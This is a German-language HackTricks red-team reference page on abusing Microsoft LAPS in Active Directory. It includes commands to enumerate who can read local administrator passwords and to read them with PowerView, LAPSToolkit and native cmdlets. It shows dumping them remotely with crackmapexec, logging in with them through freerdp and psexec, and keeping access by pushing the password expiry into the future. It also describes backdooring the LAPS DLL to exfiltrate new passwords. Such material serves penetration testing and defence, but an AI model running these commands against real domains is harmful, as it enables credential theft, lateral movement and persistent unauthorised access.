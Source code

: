 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Grundlegende Informationen

Local Administrator Password Solution (LAPS) ist ein Tool zur Verwaltung eines Systems, bei dem **Administratorpasswörter**, die **einzigartig, zufällig und häufig geändert** werden, auf domänenverbundenen Computern angewendet werden. Diese Passwörter werden sicher in Active Directory gespeichert und sind nur für Benutzer zugänglich, die durch Access Control Lists (ACLs) die Berechtigung erhalten haben. Die Sicherheit der Passwortübertragungen vom Client zum Server wird durch die Verwendung von **Kerberos Version 5** und **Advanced Encryption Standard (AES)** gewährleistet.

Bei den Computerobjekten der Domäne führt die Implementierung von LAPS zur Hinzufügung von zwei neuen Attributen: **`ms-mcs-AdmPwd`** und **`ms-mcs-AdmPwdExpirationTime`**. Diese Attribute speichern das **Klartext-Administratorpasswort** und **seine Ablaufzeit**.

### Überprüfen, ob aktiviert
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Passwortzugriff

Sie könnten **die rohe LAPS-Richtlinie** von `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` herunterladen und dann **`Parse-PolFile`** aus dem [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) Paket verwenden, um diese Datei in ein menschenlesbares Format zu konvertieren.

Darüber hinaus können die **nativ LAPS PowerShell-Cmdlets** verwendet werden, wenn sie auf einem Rechner installiert sind, auf den wir Zugriff haben:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** kann auch verwendet werden, um herauszufinden **wer das Passwort lesen kann und es lesen kann**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

Das [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) erleichtert die Enumeration von LAPS mit mehreren Funktionen.\
Eine davon ist das Parsen von **`ExtendedRights`** für **alle Computer mit aktivierten LAPS.** Dies zeigt **Gruppen**, die speziell **delegiert sind, um LAPS-Passwörter zu lesen**, die oft Benutzer in geschützten Gruppen sind.\
Ein **Konto**, das **einen Computer** zu einer Domäne hinzugefügt hat, erhält `All Extended Rights` über diesen Host, und dieses Recht gibt dem **Konto** die Fähigkeit, **Passwörter zu lesen**. Die Enumeration kann ein Benutzerkonto anzeigen, das das LAPS-Passwort auf einem Host lesen kann. Dies kann uns helfen, **spezifische AD-Benutzer** zu identifizieren, die LAPS-Passwörter lesen können.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
Wenn kein Zugriff auf PowerShell besteht, können Sie dieses Privileg remote über LDAP ausnutzen, indem Sie
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Dies wird alle Passwörter ausgeben, die der Benutzer lesen kann, sodass Sie mit einem anderen Benutzer einen besseren Fuß in die Tür bekommen.

## ** Verwendung des LAPS-Passworts **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistenz**

### **Ablaufdatum**

Sobald man Admin ist, ist es möglich, die **Passwörter** zu **erhalten** und einen Computer daran zu **hindern**, sein **Passwort** zu **aktualisieren**, indem man das Ablaufdatum in die Zukunft setzt.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Das Passwort wird weiterhin zurückgesetzt, wenn ein **Admin** das **`Reset-AdmPwdPassword`** Cmdlet verwendet; oder wenn **Nicht erlauben, dass die Passwortablaufzeit länger ist als von der Richtlinie erforderlich** in der LAPS GPO aktiviert ist.
{% endhint %}

### Hintertür

Der ursprüngliche Quellcode für LAPS ist [hier](https://github.com/GreyCorbel/admpwd) zu finden, daher ist es möglich, eine Hintertür in den Code einzufügen (innerhalb der `Get-AdmPwdPassword` Methode in `Main/AdmPwd.PS/Main.cs` zum Beispiel), die irgendwie **neue Passwörter exfiltriert oder sie irgendwo speichert**.

Dann einfach die neue `AdmPwd.PS.dll` kompilieren und auf die Maschine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` hochladen (und die Änderungszeit ändern).

## Referenzen
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
